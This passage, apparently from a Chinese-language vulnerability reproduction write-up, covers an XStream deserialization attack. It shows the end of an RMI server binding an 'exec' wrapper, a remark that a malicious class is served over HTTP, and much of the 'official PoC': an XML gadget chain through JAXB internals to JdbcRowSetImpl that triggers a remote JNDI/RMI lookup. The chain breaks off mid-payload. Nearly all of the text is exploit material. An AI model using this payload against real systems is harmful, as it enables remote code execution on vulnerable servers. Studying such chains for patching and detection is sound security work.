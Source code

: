 ```plain
        registry.bind("exec", wrapper);
    }
}
```

test 是一个恶意类，在其对应的文件夹开启 web 服务  
POC：官方给出的 POC，需要修改其里面的 RMI 地址

```plain
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='sun.awt.datatransfer.DataTransferer$IndexOrderComparator'>
        <indexMap class='com.sun.xml.internal.ws.client.ResponseContext'>
          <packet>
            <message class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart'>
              <dataSource class='com.sun.xml.internal.ws.message.JAXBAttachment'>
                <bridge class='com.sun.xml.internal.ws.db.glassfish.BridgeWrapper'>
                  <bridge class='com.sun.xml.internal.bind.v2.runtime.BridgeImpl'>
                    <bi class='com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl'>
                      <jaxbType>com.sun.rowset.JdbcRowSetImpl</jaxbType>
                      <uriProperties/>
                      <attributeProperties/>
                      <inheritedAttWildcard class='com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection'>
                        <getter>
                          <class>com.sun.rowset.JdbcRowSetImpl</class>
                          <name>getDatabaseMetaData</name>
                          <parameter-types/>
                        </getter>
                      </inheritedAttWildcard>
                    </bi>
                    <tagName/>
                    <context>
                      <marshallerPool class='com.sun.xml.internal.bind.v2.runtime.JAXBContextImpl$1'>
                        <outer-class reference='../..'/>
                      </marshallerPool>
                      <nameList>
                        <nsUriCannotBeDefaulted>
                          <boolean>true</boolean>
                        </nsUriCannotBeDefaulted>
                        <namespaceURIs>
                          <string>1</string>
                        </namespaceURIs>
                        <localNames>
                          <string>UTF-8</string>
                        </localNames>
                      </nameList>
                    </context>
                  </bridge>
                </bridge>
                <jaxbObject class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
                  <javax.sql.rowset.BaseRowSet>
                    <default>
                      <concurrency>1008</concurrency>
                      <escapeProcessing>true</escapeProcessing>
                      <fetchDir>1000</fetchDir>
                      <fetchSize>0</fetchSize>
                      <isolation>2</isolation>
                      <maxFieldSize>0</maxFieldSize>
                      <maxRows>0</maxRows>
```